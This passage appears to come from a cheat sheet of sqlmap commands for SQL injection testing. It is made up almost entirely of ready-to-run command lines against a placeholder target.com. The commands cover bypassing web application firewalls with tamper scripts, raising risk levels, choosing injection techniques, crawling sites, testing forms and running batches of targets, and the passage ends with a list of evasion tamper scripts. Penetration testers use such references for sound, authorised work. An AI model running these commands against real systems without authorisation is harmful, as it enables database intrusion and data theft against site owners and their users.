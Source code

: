 ```bash
# WAF bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper="between,space2comment"

# Multiple tamper scripts
sqlmap -u "http://target.com/page.php?id=1" --tamper="space2comment,charencode,randomcase"

# Delay between requests
sqlmap -u "http://target.com/page.php?id=1" --delay=2

# Custom timeout
sqlmap -u "http://target.com/page.php?id=1" --timeout=10

# Thread count
sqlmap -u "http://target.com/page.php?id=1" --threads=5
```

## Detection Techniques

```bash
# Risk and level adjustment
sqlmap -u "http://target.com/page.php?id=1" --risk=3 --level=5

# Specific technique
sqlmap -u "http://target.com/page.php?id=1" --technique=BEUST

# DBMS specification
sqlmap -u "http://target.com/page.php?id=1" --dbms=mysql

# Force SSL
sqlmap -u "https://target.com/page.php?id=1" --force-ssl
```

## Batch Processing

```bash
# Multiple targets from file
sqlmap -m targets.txt --dbs

# Crawl website
sqlmap -u "http://target.com" --crawl=3

# Forms testing
sqlmap -u "http://target.com" --forms --dbs
```

## Common Tamper Scripts

### Popular evasion scripts:
- `apostrophemask` - Replace apostrophe with UTF-8 character
- `base64encode` - Base64 encode payloads
- `between` - Replace equals with BETWEEN
- `charencode` - URL encode characters
- `equaltolike` - Replace equals with LIKE
- `greatest` - Replace greater than with GREATEST
- `halfversionedmorekeywords` - Add MySQL comments
- `ifnull2ifisnull` - Replace IFNULL with IF ISNULL
- `modsecurityversioned` - Add versioned MySQL comments
- `modsecurityzeroversioned` - Add zero-versioned MySQL comments
- `randomcase` - Random case keywords
- `space2comment` - Replace spaces with comments
- `space2plus` - Replace spaces with plus signs
- `versionedkeywords` - Add MySQL version comments